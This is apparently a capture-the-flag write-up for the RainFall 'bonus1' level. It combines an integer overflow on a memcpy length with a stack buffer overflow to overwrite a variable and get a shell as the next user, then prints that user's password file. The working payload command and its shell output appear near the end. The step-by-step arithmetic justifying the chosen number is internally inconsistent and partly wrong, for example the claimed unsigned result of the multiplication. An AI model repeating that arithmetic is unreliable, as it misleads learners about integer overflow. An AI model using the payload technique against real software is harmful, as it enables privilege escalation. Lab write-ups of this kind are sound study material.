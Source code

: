 # bonus1

```sh
➜  ~ ssh bonus1@127.0.0.1 -p 4242
      _____       _       ______    _ _
     |  __ \     (_)     |  ____|  | | |
     | |__) |__ _ _ _ __ | |__ __ _| | |
     |  _  /  _` | | '_ \|  __/ _` | | |
     | | \ \ (_| | | | | | | | (_| | | |
     |_|  \_\__,_|_|_| |_|_|  \__,_|_|_|

                 Good luck & Have fun

  To start, ssh with level0/level0 on 10.0.2.15:4242
bonus1@127.0.0.1's password:
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/bonus1/bonus1
bonus1@RainFall:~$
```

```sh
bonus1@RainFall:~$ ./bonus1
Segmentation fault (core dumped)
bonus1@RainFall:~$ ./bonus1 '"One Piece Red" is the best One Piece movie obviously'
bonus1@RainFall:~$ ./bonus1 '"One Piece Red" is the best One Piece movie obviously' 'The Omatsuri Baron the second best'
bonus1@RainFall:~$ 
```

![binary bonus1](Ressources/binary_bonus1-hex-rays.png)

- 2 variables are declared in the stack: `char dest[40]` and `int v5`
- `v5` was attribued the value of `atoi(argv[1])`
- A condition checks if `v5` is strictly superior to `9`. If it is, the program returns `1`.
- It copy the second argument `argv[2]` in `dest` with `v5` multiply by 4 as the size of the copy.
- Then, it checks if the variable `v5` is strictly equal `1 464 814 662`. If it is, the program spawns a `shell`. Else, ot returns `0`.

# Vulnerability: <u>Stack Buffer Overflow Attack</u> and <u>Integer Overflow Attack</u>

The biggest difficulties here, is to find the perfetct number :
- A number strictly lower than `9`
- A number strictly equal to `1 464 814 662`

Simply, an **Integer Overflow** can be view when we see the kilometer counter of a car passing from `999 999` to `1 000 000`. The counter is reset to `0` and the car is still running. And a car never has a negative kilometer counter, it's absurd. It's the same with a computer **BUT**, it can interpret **implicitly** or **explicitly** a **<u>negative number</u>** depending on the context. And when a computer try to interpret a **negative number** or a **too large number** as an <u>unsigned integer</u>, it can lead to an **Integer Overflow**.

### We have different moment when the program interpret the value of `v5` :
- **First** : when it checks if `v5` is strictly superior to `9` ---> <u>**Implicitly** interpreted as a **signed integer**</u>
- **Second** : when it copy the second argument `argv[2]` in `dest` with `v5` multiply by 4 as the size of the copy ---> <u>**Explicitly** interpreted as an **unsigned integer**</u> because the third argument of the function `memcpy` is an `size_t` which is an `unsigned long`

By default, an interger is interpreted as a **signed integer**.

## _What's the difference between a signed and an unsigned integer ?_

1. **Signed integer** : can be **positive** or **negative**. The **most significant bit** is the **sign bit**. If the **sign bit** is **0**, the number is **positive**. If the **sign bit** is **1**, the number is **negative**. The **range** of a **signed integer** is **-2^(n-1) to 2^(n-1) - 1** where **n** is the number of bits.

Here's an exemple with a **signed integer** on **8 bits** :
```lua
+---+---+---+---+---+---+---+---+
| 0 | 0 | 0 | 0 | 0 | 0 | 0 | 1 | = 1
+---+---+---+---+---+---+---+---+
  ^
  |
  +--- **The significant bit** : 0 ---> Positive number

+---+---+---+---+---+---+---+---+
| 1 | 0 | 0 | 0 | 0 | 0 | 0 | 1 | = -1
+---+---+---+---+---+---+---+---+
  ^
  |
  +--- **The significant bit** : 1 ---> Negative number
```
In `8 bit`, the number `127` is the maximum positive number and `-128` is the minimum negative number.

2. **Unsigned integer** : can only be **positive**. The **most significant bit** is not the **sign bit**. The **range** of an **unsigned integer** is **0 to 2^n - 1** where **n** is the number of bits.

Here's an exemple with an **unsigned integer** on **8 bits** :
```lua
+---+---+---+---+---+---+---+---+
| 0 | 0 | 0 | 0 | 0 | 0 | 0 | 1 | = 1
+---+---+---+---+---+---+---+---+

+---+---+---+---+---+---+---+---+
| 1 | 0 | 0 | 0 | 0 | 0 | 0 | 1 | = 129
+---+---+---+---+---+---+---+---+
```

## Knowing all that, we're going on step by step :

1. **<u>Finding the perfect number</u>** : A number lower than `9` when interpreted as a **signed integer** and equal to `1 464 814 662` when interpreted as an **unsigned integer**.
2. **<u>Finding the offset for the second argument</u>** : Don't forget we need to oveeflow the buffer `dest` to reach the `v5` variable.
3. **<u>Crafting the payload</u>** : The payload will be a concatenation of the perfect number and the offset.
4. **<u>The final payload</u>** : We will pass the payload

## 1. Finding the perfect number

It's not difficult, let's do some maths :
- We want a gigantic number. **Why ?** In 32 bits machine, an enormous number has the tendency to be interpreted as a **negative number** when it is interpreted as an **signed integer**. If you know how the the lifepoint of zombies [works in _Call of Duty World at War_ and _Black Ops 1_ in high rounds](https://www.youtube.com/watch?v=fCjXZAs7vQc), you know what I mean.
- Our gigentic  number will be `2^32` - `4` = **`4 294 967 292`**.
- We divide by `4`, multiply by `-1` for having a negative number to pass the first condition (`v4 > 9`) and substract by `13` for a marge ---> (`4 294 967 292` / `4`) * `-1` - `1` = **`-1 073 741 813`**.
- Verifications : `-1 073 741 813` * `4` = `-4 294 967 252`.
- And `-4 294 967 252`, interpreted as an `uint32_t`, become `4 294 967 244`.

> The function `memcpy`is protected by the **Buffer Overflow Attack** because the lenght is controlled. But here, it's us who control with the first argument we pass to the program. Normally, we pass the lenght of the buffer to copy for not overflow it. But here, we pass an excessive lenght and it lets us overflow the buffer `dest` above what it can contain. All we do, is to expand the limit to copy in the buffer `dest`, and lets us overflow the `buffer` and reach the `v5` variable (Reminder : `v5` is the second variable declared in the stack, we have `dest`and its size of `40`, THEN `v5`).

_I think, `4 294 967 244` is'nt enough to overflow the buffer..._

### We have our perfect number : `-1 073 741 813`.

## 2. Finding the offset for the second argument

Logically, the offset is the size of the buffer `dest` which is `40` bytes, and after the `v5` variable. So, the offset is `40` and the four next bytes are the value of the variable `v5`. We can also add the number to which we want `v5` to be equal to and enter in the `if` condition : the number `1 464 814 662`.

But we passed this number in hexadecimal : `0x574F4C46`, in little-endian it's `\x46\x4C\x4F\x57`.

### We have our offset : `40`. And the futur value of `v5` in hexadecimal : `\x46\x4C\x4F\x57`.

## 3. **Crafting the payload**

- First at all, we pass our perfect number `-1 073 741 813` in the first argument for all the reasons we already have announced.

```sh
-1073741813
```

- Seoncdly, we pass the offset `40` in the second argument for overflow the buffer `dest` and reach the `v5` variable.

```sh
-1073741813 $(python -c 'print "A" * 40')
```

- Finally, the value we want `v5` to be equal to by overflowing the buffer `dest` : `0x574F4C46` / `\x46\x4C\x4F\x57`.

```sh
-1073741813 $(python -c 'print "A" * 40 + "\x46\x4C\x4F\x57"')
```

### We have our payload ! ✅

## 4. The final payload

Let's try it right now :

```sh
bonus1@RainFall:~$ ./bonus1 -1073741813 $(python -c 'print "A" * 40 + "\x46\x4C\x4F\x57"')
$ whoami
bonus2
$ 
```

# ZEEEEEHAHAHAHAHAHAHAHAHAHAHAHAHAHA

Let's get the flag :

```sh 
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
$ 
```

And go to the next level !

```sh
bonus1@RainFall:~$ su bonus2
Password: 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/bonus2/bonus2
bonus2@RainFall:~$ 
```

# bonus1 complet !
![yeah](../assets/yeah.gif)

